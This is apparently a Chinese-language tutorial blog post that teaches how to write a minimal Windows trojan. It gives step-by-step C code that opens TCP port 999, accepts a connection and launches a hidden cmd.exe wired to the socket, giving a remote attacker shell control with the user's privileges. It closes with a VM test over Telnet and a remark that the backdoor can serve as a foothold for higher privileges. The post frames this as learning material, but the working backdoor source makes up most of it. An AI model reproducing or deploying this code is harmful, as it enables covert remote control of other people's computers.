







以最简单的mini木马开始我们的木马编程学习
在开始前，先去复习一下Socket编程如何？
木马的本质上正如其名，在看似无害的外表下隐藏致命的利剑。
所以木马应该在被入侵的计算机主任没有意识的状况下控制计算机。
MiNi木马
mini木马实现了一个木马最基本的功能，开启后会打开计算机的一个端口，允许外部计算机以当前用户的权限远程通过Telnet控制计算机
主要的操作顺序为
- 初始化内存
- 获取CMD路径
- 加载ws2_32.dll
- 建立Socket套接字
- 设置绑定端口
- 设置服务器监听端口
- 连接远程服务器
- 配置隐藏窗口结构体
- 创建匿名通道
- 等待连接
- 通信结束，结束程序
变量
WSADATA WSADa;
sockaddr_in SockAddrIn;
SOCKET CSocket, SSocket;
int iAddrSize;
PROCESS_INFORMATION ProcessInfo;
STARTUPINFO StartupInfo;初始化内存
这一步没什么太多可讲的，
使用ZeroMemory()清空重要变量的内容
ZeroMemory(&ProcessInfo, sizeof(ProcessInfo));
ZeroMemory(&StartupInfo, sizeof(StartupInfo));
ZeroMemory(&WSADa, sizeof(WSADa));获取CMD路径
获取环境变量值COMSPEC————即CMD
GetEnvironmentVariable(L"COMSPEC", szCMDPath, sizeof(szCMDPath))加载ws2_32.dll
ws2_32.dll这是以后我们会经常用到的动态链接库对应的是Win32 API编程，以后会详细讲
WSAStartup(0x0202, &WSADa);设置本地信息和绑定协议，建立Socket
本木马属于TCP访问，所以使用流式套接字(SOCK_STREAM)
详细说明可参考我的
设定本地信息和绑定协议
SockAddrIn.sin_family = AF_INET;
SockAddrIn.sin_addr.s_addr = INADDR_ANY;
SockAddrIn.sin_port = htons(MasterPort);建立Socket————socket()
CSocket = WSASocket(AF_INET, SOCK_STREAM, IPPROTO_TCP, NULL, 0, 0);WSASocket()函数原型：
SOCKET WSASocket (
int af,
int type,
int protocol,
LPWSAPROTOCOL_INFO lpProtocolInfo,
GROUP g,
DWORD dwFlags
);参数说明：
af：[in]一个地址族规范。仅支持AF_INET格式，亦即ARPA Internet地址格式。
type：新套接口的类型描述。
protocol：套接口使用的特定协议，如果调用者不愿指定协议则定为0。
lpProtocolInfo：一个指向PROTOCOL_INFO结构的指针，该结构定义所创建套接口的特性。如果本参数非零，则前三个参数（af, type, protocol）被忽略。
g：保留给未来使用的套接字组。套接口组的标识符。
iFlags：套接口属性描述。
设置绑定端口————bind()
bind(CSocket, (sockaddr*)&SockAddrIn, sizeof(SockAddrIn));设置服务器监听端口：
listen(CSocket, 1);
iAddrSize = sizeof(SockAddrIn);开始连接远程服务器，并配置隐藏窗口结构体：
SSocket = accept(CSocket, (sockaddr*)&SockAddrIn, &iAddrSize);
StartupInfo.cb = sizeof(STARTUPINFO);
StartupInfo.wShowWindow = SW_HIDE; //窗口显示属性改为隐藏
StartupInfo.dwFlags = STARTF_USESTDHANDLES | STARTF_USESHOWWINDOW;
StartupInfo.hStdInput = (HANDLE)SSocket;
StartupInfo.hStdOutput = (HANDLE)SSocket;
StartupInfo.hStdError = (HANDLE)SSocket;STARTUPINFO StarupInfoz 这一结构体的原型：
typedef struct _STARTUPINFO
{
DWORD cb; //包含STARTUPINFO结构中的字节数.如果Microsoft将来扩展该结构,它可用作版本控制手段.应用程序必须将cb初始化为sizeof ( STARTUPINFO )
PSTR lpReserved; //保留。必须初始化为N U L L
PSTR lpDesktop; //用于标识启动应用程序所在的桌面的名字。如果该桌面存在，新进程便与指定的桌面相关联。如果桌面不存在，便创建一个带有默认属性的桌面，并使用为新进程指定的名字。 如果lpDesktop是NULL（这是最常见的情况 ),那么该进程将与当前桌面相关联
PSTR lpTitle; //用于设定控制台窗口的名称。如果l p Ti t l e 是N U L L ，则可执行文件的名字将用作窗口名
DWORD dwX; //用于设定应用程序窗口在屏幕上应该放置的位置的x 和y 坐标（以像素为单位）。
DWORD dwY; //只有当子进程用CW_USEDEFAULT作为CreateWindow的x参数来创建它的第一个重叠窗口时, 才使用这两个坐标。若是创建控制台窗口的应用程序，这些成员用于指明控制台窗口的左上角
DWORD dwXSize; //用于设定应用程序窗口的宽度和长度（以像素为单位）只有dwYsize
DWORD dwYSize; // 当子进程将CW_USEDEFAULT 用作CreateWindow 的nWidth参数来创建它的第一个重叠窗口时，才使用这些值。若是创建控制台窗口的应用程序，这些成员将用于指明控制台窗口的宽度
DWORD dwXCountChars; //用于设定子应用程序的控制台窗口的宽度和高度（以字符为单位）
DWORD dwYCountChars;
DWORD dwFillAttribute; //用于设定子应用程序的控制台窗口使用的文本和背景颜色
DWORD dwFlags; //请参见下一段
STARTF_USESIZE // 使用dwXSize 和dwYSize 成员
STARTF_USESHOWWINDOW //使用wShowWindow 成员
STARTF_USEPOSITION //使用dwX 和dwY 成员
STARTF_USECOUNTCHARS //使用dwXCountChars 和dwYCount Chars 成员
STARTF_USEFILLATTRIBUTE //使用dwFillAttribute 成员
STARTF_USESTDHANDLES //使用hStdInput 、hStdOutput 和hStdError 成员
STARTF_RUN_FULLSCREEN //强制在x86 计算机上运行的控制台应用程序以全屏幕方式启动运行
WORD wShowWindow; //用于设定如果子应用程序初次调用的ShowWindow 将SW_SHOWDEFAULT 作为 nCmdShow 参数传递时，该应用程序的第一个重叠窗口应该如何出现。本成员可以是通常用于ShowWindow 函数的任何一个SW_*标识符
WORD cbReserved2; //保留。必须被初始化为0
PBYTE lpReserved2; //保留。必须被初始化为N U L L
HANDLE hStdInput; //用于设定供控制台输入和输出用的缓存的句柄。按照默认设置，hStdInput 用于标识键盘缓存，hStdOutput 和hStdError用于标识控制台窗口的缓存
HANDLE hStdOutput;
HANDLE hStdError;
} STARTUPINFO, *LPSTARTUPINFO;*/创建匿名通道
CreateProcess(NULL, szCMDPath, NULL, NULL, TRUE, 0, NULL, NULL, &StartupInfo, &ProcessInfo);BOOL CreateProcess() 函数原型：
BOOL CreateProcess
(
LPCTSTR lpApplicationName,
LPTSTR lpCommandLine,
LPSECURITY_ATTRIBUTES lpProcessAttributes。
LPSECURITY_ATTRIBUTES lpThreadAttributes,
BOOL bInheritHandles,
DWORD dwCreationFlags,
LPVOID lpEnvironment,
LPCTSTR lpCurrentDirectory,
LPSTARTUPINFO lpStartupInfo,
LPPROCESS_INFORMATION lpProcessInformation
)
LPCTSTR lpApplicationName:
指向一个NULL结尾的、用来指定可执行模块的字符串。
这个字符串可以是可执行模块的绝对路径，也可以是相对路径，在后一种情况下，函数使用当前驱动器和目录建立可执行模块的路径。
这个参数可以被设为NULL，在这种情况下，可执行模块的名字必须处于 lpCommandLine 参数最前面并由空格符与后面的字符分开。
一般都设为NULL
LPTSTR lpCommandLine：
指向一个以NULL结尾的字符串，该字符串指定要执行的命令行。
这个参数可以为空，那么函数将使用lpApplicationName参数指定的字符串当做要运行的程序的命令行。
如果lpApplicationName和lpCommandLine参数都不为空，那么lpApplicationName参数指定将要被运行的模块，lpCommandLine参数指定将被运行的模块的命令行。
新运行的进程可以使用GetCommandLine函数获得整个命令行。C语言程序可以使用argc和argv参数。
LPSECURITY_ATTRIBUTES lpProcessAttributes：
指向一个SECURITY_ATTRIBUTES结构体，这个结构体决定是否返回的句柄可以被子进程继承。
如果lpProcessAttributes参数为空（NULL），那么句柄不能被继承。
在Windows NT中：SECURITY_ATTRIBUTES结构的lpSecurityDescriptor成员指定了新进程的安全描述符，如果参数为空，新进程使用默认的安全描述符。
LPSECURITY_ATTRIBUTES lpThreadAttributes：
同lpProcessAttribute,不过这个参数决定的是线程是否被继承.通常置为NULL.
BOOL bInheritHandles
指示新进程是否从调用进程处继承了句柄。
如果参数的值为真，调用进程中的每一个可继承的打开句柄都将被子进程继承。被继承的句柄与原进程拥有完全相同的值和访问权限。
DWORD dwCreationFlags:
控制新进程的优先类，优先类用来决定此进程的线程调度的优先级。
LPVOID lpEnvironment:
指向一个新进程的环境块。如果此参数为空，新进程使用调用进程的环境。
LPCTSTR lpCurrentDirectory:
指向一个以NULL结尾的字符串，这个字符串用来指定子进程的工作路径。
这个字符串必须是一个包含驱动器名的绝对路径。
如果这个参数为空，新进程将使用与调用进程相同的驱动器和目录。这个选项是一个需要启动应用程序并指定它们的驱动器和工作目录的外壳程序的主要条件。
LPSTARTUPINFO lpStartupInfo:
指向一个用于决定新进程的主窗体如何显示的STARTUPINFO结构体。
lpProcessInformation:
指向一个用来接收新进程的识别信息的PROCESS_INFORMATION结构体。
等待连接
WaitForSingleObject(ProcessInfo.hProcess, INFINITE);WaitForSingleObject()函数原型：
DWORD WINAPI WaitForSingleObject(
__in HANDLE hHandle,
__in DWORD dwMilliseconds
);
hHandle:指定进程
dwMilliseconds：有两个具有特殊意义的值————0和INFINITE。若为0，则该函数立即返回；若为INFINITE，则线程一直被挂起，直到hHandle所指向的对象变为有信号状态时为止。
通信完成，关闭进程和套接字
CloseHandle(ProcessInfo.hProcess);
CloseHandle(ProcessInfo.hThread);
closesocket(CSocket);
closesocket(SSocket);卸载ws2_32.dll，关闭连接
WSACleanup();测试
让我们直接双击运行编译好的mini木马程序

当然是用虚拟机来跑啦，小傻瓜！
记得要关虚拟机防火墙

接着我们可以直接在真实机启动Telnet服务去连接已经中招的虚拟机
输入：
telnet [ip] [端口号]
在这里，mini木马的端口号是999

跳出新窗口，连接成功！

随便来点操作，比如在桌面建立文件夹123

回来看虚拟机，已经建立了对应文件夹啦

至此我们完全可以说，这台电脑已经被控制了。
分析
通过查看虚拟机里的开放端口，我们可以看到mini木马在虚拟机打开了999端口

弱点
mini木马只能使用当前打开此木马的用户的权限进行操作，所以如果用户权限做得好，mini木马做不了什么事，当然，以此为踏板进行其他操作，获取更高的权限是可以的
minin木马能够被防火墙拦截，所以就现在来说能够做到的事情有限。